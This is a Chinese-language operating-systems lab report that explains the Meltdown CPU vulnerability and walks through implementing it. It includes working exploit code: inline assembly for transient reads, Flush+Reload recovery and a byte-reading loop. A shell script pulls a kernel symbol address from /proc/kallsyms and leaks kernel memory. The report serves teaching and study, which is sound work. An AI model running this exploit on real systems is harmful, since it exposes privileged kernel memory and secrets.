



# OSH Lab 4 - 实现Meltdown内存越权访问
## 实验概述
本实验皆在实现利用Meltdown漏洞实现内存越权访问，获取处在用户空间的进程本不允许访问的内核空间的内存内容。
Meltdown漏洞与2017年7月被发现，并于2018年1月公开，其历史甚至可以追溯到1995年，一篇名为*The Intel 80x86 Processor Architecture: Pitfalls for Secure Systems*的论文就警告了利用CPU的cache和TLB实现攻击的可能性。该漏洞波及范围很广，影响了所有Intel x86架构的处理器，IBM POWER处理器，以及部分ARM架构的处理周期。该漏洞也是个硬件漏洞，目前操作系统厂商发布的安全补丁也会导致处理器性能5%-10%的降低。简单来说，Meltdown主要利用的就是在现代CPU中的乱序执行（Out-of-order execution），其利用了一个race condition，这个race condition在CPU内存访问和内存权限检查时发生。现代CPU在分支指令实际被计算出是否进行分支之前就已经将接下来不涉及到数据依赖的指令提前装载进流水线中执行，如果CPU最后发现分支预测错误，那么CPU将会清除掉这几条指令，将处理器的微结构恢复到之前的状态。但是，处理器的状态（例如cache）却没有完全被恢复，从而可以被利用来进行越权内存访问。
## Meltdown背景知识
### CPU乱序执行
乱序执行是现代CPU一种提高CPU吞吐量的方法，CPU会在确定什么指令一定需要被执行且提交之前就预测性地执行一些指令。在Intel Skylake构架中，流水线由Frontend, Execution Engine和Memory Subsystem组成。
机器指令首先由Frontend从内存中读取并且解码成微指令。乱序执行主要由Execution Engine完成，其含有一个Reorder buffer负责对寄存器的重定向。可以给指令分配寄存器，重命名寄存器以使得指令可以提前用到未被提交的寄存器的值。之后指令会由调度器Scheduler分配到合适的执行单元执行。如果寄存器的值不可用，或者没有空闲的执行单元可用，那么指令就会在流水线中等待，直到可以被执行为止。   
CPU通常采用静态分支预测（分支预测的结果完全取决于指令本身）或动态分支预测。动态分支预测维持一个分支预测计数器，以更好的识别出程序中的分支模式。
### 地址空间
现代操作系统通常都采用虚拟内存机制，以提供比实际物理内存更大的地址空间，以及实现权限控制。在Linux中，虚拟内存空间被分成了用户态内存空间和内核态内存空间，用户空间无法访问内核空间的内容。系统通过在页表中设置一个权限位，CPU仅有处在特权模式（privileged mode）时能访问内核空间。上下文切换时相应的页表也要切换。Linux中，通常整个物理地址都会被映射到内核空间。因此，只要我们的攻击进程能访问自身的内核地址空间，我们就几乎能访问到任何我们想要得到的数据。
### cache攻击
Flush+Reload是一种较为常用的cache攻击，它拥有低噪声以及较好的性能。Flush+Reload攻击的方式主要是攻击者频繁地用`cflush`指令清空目标内存空间，从cache中抹除，这样的话其他进程访问该内存空间的话就需要重新载入cache。此时，攻击者进程在依次访问目标内存空间的每一个地址，测量平均访问时间。耗时明显小的显然是被载入cache的，而访问时间长的则没有被载入cache。因此我们便利用了cache中的信息得到了其他进程的内存访问信息。
## Meltdown攻击原理
Meltdown攻击方式并不复杂，主要由以下三个部分构成：
1. 攻击者选择一个不可被攻击者访问的内存地址，装载到一个寄存器中。
2. 用一条transient instruction（由于乱序执行而被执行的本不应该被执行的指令）根据目标地址的具体内容来访问一个cache line
3. 攻击者通过Flush+Reload技术来判断transient instruction访问到的cache line，并且通过这个访问到的cache line来推断目标地址中存储的内容。

### 核心代码
```assembly
retry:
mov al, byte [rcx]
shl rax, 0xc
jz retry
mov rbx, qword [rbx + rax]
```
这段汇编代码就展示了整个Meltdown攻击的核心步骤。首先，`%rcx`寄存器中包含了要访问的非法地址，`mov`指令读取该内存地址，将低位（一个byte）存储到`%al`中（`%rax`）的低位。之后将目标`%rax`左移12位（4KB），访问对应的cache line。这里的`jz retry`的循环其实是不必须的，只是为了避免0偏差。   
CPU在乱序执行过程中，分支后的指令都会被装入流水线中预先执行，如果预测错误再被清除。此时，第一条`mov`指令已经读出了内存中的内容，并且第二条`mov`指令已经访问了对应的内存地址，并且将其装载到了cache中的相应位置中。当第一条`mov`指令实际需要被执行，进入提交阶段时，CPU才会发出一个段错误异常，清空刚刚读取出的寄存器内容。此时为时已晚，第二条`mov`指令已经改变了cache的状态。当然，也有可能异常已经被抛出并且清空了`%rax`寄存器，然后第二条`mov`指令再读取了内存，这就是所谓的“0偏差”，因此我们需要用一个循环不断尝试，直到读取出一个非0值或者异常被抛出，从而误判的风险。   
我们使用一个256\*4096的数组来记录每次读取内存的8bit数据的256个不同的可能值，该数组是按4KB对齐的。每次transient instruction访问其中一个元素，我们便可以从中推断出被访问的非法地址的内存数据。   
同时需要注意的时，我们要将`%rax`左移12位（乘上4096）来访问对应的cache line。这是因为在Linux中，每页的大小是4KB，记录数组设置成4KB对齐为了避免cache的预读取整页而影响判断。

## 实验环境
- 物理机 - Windows 7 ver 6.1.7601, Intel® Core™ i5-7400 CPU @ 3.00GHz 
- 虚拟机 - Ubuntu 4.8.4-2ubuntu1~14.04.3, running on VMware® Workstation 14 Pro 14.1.2 build-8497320

使用[Spectre & Meltdown Checker](https://github.com/speed47/spectre-meltdown-checker.git)检测虚拟机是否受Meltdown漏洞影响   
检测发现受到Meltdown影响   


## 具体实现
代码参照[paboldin/meltdown-exploit](https://github.com/paboldin/meltdown-exploit)   
首先主函数从命令行参数中接受需要访问的非法起始地址以及需要读取的字节数（十六进制），并且开始攻击。从起始地址开始，每次对当前地址利用Meltdown漏洞攻击尝试读取100次（默认值），以其中出现次数最多的元素认为是该地址内的真实内容。   
首先我们需要处理的一个问题是对于SIGSEGV信号的处理，如果我们不理会该信号，那么信号一旦产生便会导致我们的程序终止，因此必须写一个Signal Handler来处理信号。这里采用CSAPP第八章Shell Lab中所提供的一个`sigaction`函数的wrapper。对于SIGSEGV信号的处理，我们当然想让收到这个信号后便停止核心的攻击汇编代码的进行，转而执行从cache中利用Flush+Reload技术分析代码的过程。这里运用`sigsetjmp`函数和`siglongjmp`函数的组合。如果attack过程判断不是由SIGSEGV信号返回的时候才执行攻击代码。   
核心攻击代码：
```c
static void __attribute__((noinline)) meltdown_attack(char* addr)
{
    if (!sigsetjmp(jmp_buffer, 1)) {
    __asm__ volatile(
		".rept 300\n\t"
		"add $0x141, %%rax\n\t"
		".endr\n\t"

        "retry:\n\t"
		"movzx (%[addr]), %%rax\n\t"
        "shl $12, %%rax\n\t"
        "mov (%[target], %%rax, 1), %%rbx\n\t"
		"jz retry\n"
        :
		: [target] "r" (cache),
		  [addr] "r" (addr)
		: "rax","rbx"
	);
    }
    else return;
}
```
这部分采用gcc内联汇编，主体上与论文中的代码相同，唯一需要注意的部分是刚开始重复进行了300次加法指令，这里是为了产生一个延迟。之后采用了`movzx`而不是`mov`，主要是使得在读取到`%rax`寄存器中的低位时将高位清除，从而保证访问的chche line的正确性。   
从cache数据中用Flush+Reload技术提取攻击代码获取到的内存信息的函数是`recover_secret`，这个函数就是直接对256个不同的内存地址进行探测，为了避免cachen对线性探查进行预测，我们每次读取之前都随机化访问的序列，访问序列存储在`probe_sequence`中，每次探查之前都调用标准库`algorithm`的`random_shuffle`函数对齐重新排列。
```c
uint8_t recover_secret(void)
{
    int value_probe;
    char *addr;

    int time;
    int min_time = INT_MAX;
    int hit_value = 0;

    std::random_shuffle(probe_sequence.begin(), probe_sequence.end());
    for (int i = 0; i != possible_value_nums; ++i)
    {
        value_probe = probe_sequence[i];
        addr = (char *) ((unsigned long) cache + value_probe * page_size);
        time = get_access_time(addr);
        if (time < min_time)
        {
            hit_value = value_probe;
            min_time = time;
        }
    }
    return hit_value;
}
```
对于读取一个字节的函数的实现就很显而易见了
```c
int read_byte(char* addr)
{
    static char buf[256];
    memset(cache, 0, page_size * possible_value_nums);
    if (pread(fd, buf, sizeof(buf), 0) < 0)
        unix_error((char *) "pread failed");
    flush_cache();
    meltdown_attack(addr);
    return recover_secret();
}
```
首先清空cache数组的值，然后清空掉cache，之后进行攻击，调用`recover_secret`函数返回读取内容。   
需要注意的是，我们的程序需要打开和读取`/proc/version`，这个操作是为了使得访问的`linux_proc_banner`常驻在内存中，不会被刷新掉。
## 实验结果
### 调用Shell脚本
```shell
make clean
make
linux_proc_banner=$(sudo cat /proc/kallsyms | grep linux_proc_banner | sed -n -re 's/^([0-9a-f]*[1-9a-f][0-9a-f]*) .* linux_proc_banner$/\1/p')
echo $linux_proc_banner
./meltdown $linux_proc_banner 57
echo "----------------"
echo "from /proc/version:"
cat /proc/version
make clean
```
Shell脚本的编写参考[理解CPU芯片漏洞：Meltdown与Spectre](https://blog.csdn.net/gjq_1988/article/details/79138505)和[paboldin/meltdown-exploit](https://github.com/paboldin/meltdown-exploit) 
### 运行结果

## 附：读取本进程中的内存数据
在实现对`linux_proc_banner`的越权访问之前，还尝试实现了一下对本进程的用户态数据进行读取。   
在本repo的第一次commit中可以找到相关代码。程序中保存了一个C风格字符串全局变量
> To be or not to be is a question.

攻击程序成功读取出该字符串。 


## 参考资料
- Meltdown by Lipp, Schwarz, Gruss, Prescher, Haas, Mangard, Kocher, Genkin, Yarom, and Hamburg
- Computer Systems: A Programmer's Perspective, 3/E (CS:APP3e)
- https://github.com/paboldin/meltdown-exploit
- https://blog.csdn.net/gjq_1988/article/details/79138505
